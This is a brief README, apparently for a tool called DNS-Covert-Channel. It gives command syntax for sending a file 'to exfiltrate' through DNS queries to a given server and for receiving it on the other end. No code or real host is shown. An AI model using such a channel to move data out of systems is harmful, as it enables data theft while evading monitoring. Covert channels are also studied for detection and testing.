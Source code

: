 # DNS-Covert-Channel

## Use

### Sending
Proper syntax is ./main --fileIn <filepath> --dns <IP>
- filepath points to the file to exfiltrate
- IP is the DNS server to query

### Receiving
Proper syntax is ./main --fileOut <filepath> --dns <IP>
- filepath is the location to save the output
- IP is the DNS server to query